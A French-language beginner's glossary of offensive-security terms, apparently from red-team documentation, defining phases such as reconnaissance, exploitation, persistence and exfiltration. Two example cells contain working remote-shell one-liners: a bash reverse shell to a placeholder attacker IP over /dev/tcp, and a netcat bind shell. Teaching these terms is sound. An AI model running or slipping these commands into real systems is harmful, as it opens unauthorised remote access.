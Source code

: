 # Glossaire Offensif Vulgarisé

Ce glossaire explique simplement les termes techniques que tu rencontreras dans la documentation offensive. Idéal pour débuter ou réviser !

| Terme                | Définition Vulgarisée                                                                 | Exemple concret                                  |
|----------------------|--------------------------------------------------------------------------------------|--------------------------------------------------|
| Reconnaissance       | Phase où l'on collecte des infos sur la cible, souvent sans se faire remarquer.      | Chercher l'adresse mail d'une entreprise sur Google |
| Énumération          | Interroger les services découverts pour obtenir des détails techniques.              | Lister les utilisateurs d'un serveur FTP         |
| Exploitation         | Utiliser une faille pour obtenir un accès non autorisé.                              | Lancer un exploit pour obtenir un shell          |
| Post-Exploitation    | Actions après l'accès : persistance, vol de données, déplacement latéral, etc.       | Installer une backdoor après avoir eu un shell   |
| Privilege Escalation | Passer d'un utilisateur normal à admin/root.                                         | Exploiter sudo mal configuré                     |
| Payload              | Code malveillant envoyé pour exécuter une action (ex : reverse shell).               | Un script qui ouvre un accès distant             |
| Reverse Shell        | Shell qui se connecte de la cible vers l'attaquant.                                  | Bash -i >& /dev/tcp/attacker_ip/4444 0>&1        |
| Bind Shell           | Shell qui attend une connexion sur la cible.                                         | nc -lvp 4444 -e /bin/bash                        |
| C2 (Command & Control)| Canal de communication entre l'attaquant et la machine compromise.                  | Utiliser Metasploit pour piloter un bot          |
| OPSEC                | Techniques pour masquer ses traces et éviter d'être détecté.                         | Effacer les logs après exploitation              |
| EDR                  | Logiciel de sécurité avancé qui surveille et bloque les attaques.                   | Windows Defender ATP, CrowdStrike                |
| AV                   | Antivirus classique                                                                  | Avast, Kaspersky                                 |
| Lateral Movement     | Se déplacer d'une machine à une autre sur le réseau.                                 | Utiliser des credentials volés pour rebondir     |
| Persistence          | Maintenir l'accès à la machine même après un redémarrage.                            | Ajouter un script dans les tâches planifiées     |
| Exfiltration         | Sortir des données de la cible vers l'attaquant.                                     | Télécharger un fichier via un tunnel chiffré     |
| Living Off The Land  | Utiliser les outils déjà présents sur la cible pour attaquer.                        | Utiliser PowerShell ou certutil sur Windows      |
| Fileless             | Attaque sans écrire de fichier sur le disque.                                        | Exécuter du code en mémoire uniquement           |
| Phishing             | Tromper une personne pour obtenir des infos ou l'inciter à cliquer sur un lien/piège.| Envoyer un faux mail de banque                   |
| Red Team             | Équipe qui simule des attaques réelles pour tester la sécurité d'une organisation.   | Simuler un ransomware dans un test d'intrusion   |

*Ce glossaire sera enrichi au fil de la documentation. N'hésite pas à proposer des termes à ajouter !* 